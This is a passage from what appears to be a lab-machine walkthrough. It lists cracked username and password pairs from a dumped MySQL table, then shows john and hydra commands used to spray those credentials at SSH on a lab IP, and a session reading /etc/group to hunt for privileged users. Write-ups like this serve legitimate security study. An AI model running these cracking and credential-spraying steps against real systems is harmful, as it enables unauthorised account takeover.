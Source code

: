 monkey           (jbresnahan)
pepper           (djohnson)
sunshine         (ccoffee)
whatever         (aheflin)
welcome          (jalcantar)
111111           (jayala)
654321           (bphillips)
666666           (aspears)
killer           (dcooper)
princess         (kclemons)
superman         (aharp)
123123           (tgoodchap)
1234567          (aallen)
cheese           (lmorales)
starwars         (myajima)
Password         (mnader)
nintendo         (dgilfillan)
pokemon          (rjacobson)
passw0rd         (lmartinez)
0                (dtraylor)
consumer         (sjohnson)
gawker           (jduff)
kotaku           (swarren)
babyl0n          (jdavenport)
gizmodo          (qpowers)
{% endcodeblock %}

Trying to login through ssh:
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.1.120/dump/mysql# john --format=mysql-sha1 hashes.csv --show | grep : > ~/user-pass.list
root@kali32:~# hydra -C user-pass.list 192.168.1.120 ssh
{% endcodeblock %}

We use one of the accounts to log in and check if there is any user with the higher privileges:
{% codeblock %}
rdominguez@slax:~$ cat /etc/group
root:x:0:root
bin:x:1:root,bin
daemon:x:2:root,bin,daemon
sys:x:3:root,bin,adm
adm:x:4:root,adm,daemon
tty:x:5:
disk:x:6:root,adm
lp:x:7:lp
mem:x:8:
kmem:x:9:
wheel:x:10:root
floppy:x:11:root
mail:x:12:mail
news:x:13:news
uucp:x:14:uucp
man:x:15:
audio:x:17:root
video:x:18:root
cdrom:x:19:root
games:x:20:
slocate:x:21:
utmp:x:22:
smmsp:x:25:smmsp
tape:x:26:root
mysql:x:27:
rpc:x:32:
sshd:x:33:sshd
